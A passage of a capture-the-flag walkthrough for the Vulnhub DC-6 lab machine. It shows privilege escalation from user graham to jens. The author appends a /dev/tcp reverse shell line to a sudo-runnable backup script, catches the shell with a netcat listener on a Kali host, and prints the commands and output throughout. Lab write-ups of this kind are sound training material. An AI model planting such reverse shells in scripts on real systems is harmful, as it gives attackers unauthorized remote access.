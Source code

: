 Yes we got in as Graham! Now let's find out what permissions we have.
```bash
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```
So we can execute the backup script as jens... If we are member of the devs group we can adjust this file. Let's check our user on the machine.
```
graham@dc-6:~$ whoami;id;hostname
graham
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
dc-6
graham@dc-6:~$ 

```
We are member of the `devs` group. Now let's append the file with a command to setup a reverse shell. 
```bash 
graham@dc-6:~$ echo 'sh -i >& /dev/tcp/10.0.2.15/53 0>&1' >> /home/jens/backups.sh
graham@dc-6:~$ cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
sh -i >& /dev/tcp/10.0.2.15/53 0>&1
graham@dc-6:~$ 

```
The reverse shell command has been added to the file.
Now start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ sudo nc -lvp 53               
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53

```
Now run the backup script as jens.
```bash
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh
tar: Removing leading `/' from member names
tar (child): backups.tar.gz: Cannot open: Permission denied
tar (child): Error is not recoverable: exiting now
tar: backups.tar.gz: Wrote only 4096 of 10240 bytes
tar: Child returned status 2
tar: Error is not recoverable: exiting now


```
Now let's check the netcat listener and check if the connection has been establishe who we are.
```
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ sudo nc -lvp 53               
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.0.2.36.
Ncat: Connection from 10.0.2.36:42740.
$ whoami;id;hostname
jens
```